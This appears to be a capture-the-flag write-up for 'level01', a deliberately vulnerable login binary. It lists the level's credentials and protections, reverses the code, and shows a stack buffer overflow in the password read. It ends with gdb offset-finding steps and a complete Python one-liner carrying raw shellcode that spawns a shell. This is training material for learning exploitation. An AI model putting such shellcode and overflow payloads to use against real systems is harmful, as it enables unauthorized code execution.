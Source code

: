 ## level01

	username: level01
	password: uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

### Mitigations applied:

```
$ checksec --file level01
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level01
```

### Usage:

The program prompts the user for a username and exits if invalid.

```
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: user
verifying username....

nope, incorrect username...
```

Otherwise it prompts for a password then exits.

```
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
pass
nope, incorrect password...
```

### Analysis:

`fgets` is used to get the username which is stored in a global valriable `a_user_name`. then `verify_user_name()` is called.

```c
/*
   0x08048510 <+64>:	mov    eax,ds:0x804a020
   0x08048515 <+69>:	mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:	mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
 */
fgets(a_user_name, 0x100, stdin);
/*
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
 */
var2 = verify_user_name();
```

This function simply compares the username with the string `dat_wil`.

```c
/*
   0x08048478 <+20>:	mov    edx,0x804a040
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
 */
return (strncmp("dat_wil", a_user_name, 0x7));
```

If the strings are not equal, the program exits.

```c
/*
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>
 */
if (var2 != 0)
{
	/*
	   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
	   0x08048544 <+116>:	call   0x8048380 <puts@plt>
	 */
	puts("nope, incorrect username...\n");
	return (0x1);
}
```

In case of a valid username, the password is taken and verified the same way.

```
/*
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
 */
fgets(var1, 0x64, stdin);
/*
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
 */
var2 = verify_user_pass(var1);
```

`verify_user_pass()` compares the password with the string `admin`

```
/*
   0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:	mov    edx,eax
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
 */
return (strncmp("admin", s, 0x5));
```

Upon return, the program exits whether the password is valid or not.

```
/*
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>
 */
if (var2 == 0 || var2 != 0)
{
	/*
	   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
	   0x0804859e <+206>:	call   0x8048380 <puts@plt>
	 */
	puts("nope, incorrect password...\n");
	return (0x1);
}
```

The problem here is when inserting the password `fgets()` accepts 0x64 characters while the buffer user is only 0x10 bytes long, as can be seen at the begining of the `main()` when filling it with 0x0

```
0x080484db <+11>:	lea    ebx,[esp+0x1c]
0x080484df <+15>:	mov    eax,0x0
0x080484e4 <+20>:	mov    edx,0x10
0x080484e9 <+25>:	mov    edi,ebx
0x080484eb <+27>:	mov    ecx,edx
0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax
```

This problem allows us to overwrite the return address (`EIP`) and control the execution flow.

### Exploit

To find the offset to overwrite the return address, we started gdb and set a breakpoint after `fgets()` returns.

```
$ gdb -q ./level01
(gdb) b *main + 169
```
We ran the program by providing the valid username `dat_wil` followed by 84 bytes, then examined the stack to see where our input resides.

```
(gdb) r < <(python -c 'print("dat_wil\n"+"A"*80+"BBBB")')
(gdb) x/28xw $esp
0xffffd6b0:	0xffffd6cc	0x00000064	0xf7fcfac0	0x00000001
0xffffd6c0:	0xffffd8d9	0x0000002f	0xffffd71c	0x41414141
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd700:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd710:	0x41414141	0x41414141	0x41414141	0x42424242
```

After continuing execution, we noticed a `SIGSEGV` at the address `0x42424242`.

> 0x42 is the ascii representation of the letter `B`

```
(gdb) c
...
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

After finding the offset we injected a shellcode instead of `A`'s and its address at the position of `B`'s.

We needed to tweak the address of the shellcode as it was different from what we can see above when running the program outside `gdb`.

```
$ python -c 'print("dat_wil\n"+"\x90"*(80-70)+"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"+"\x90"*20+"\x2c\xde\xff\xff")' | env -i ./level01
...
$ whoami
level02
```
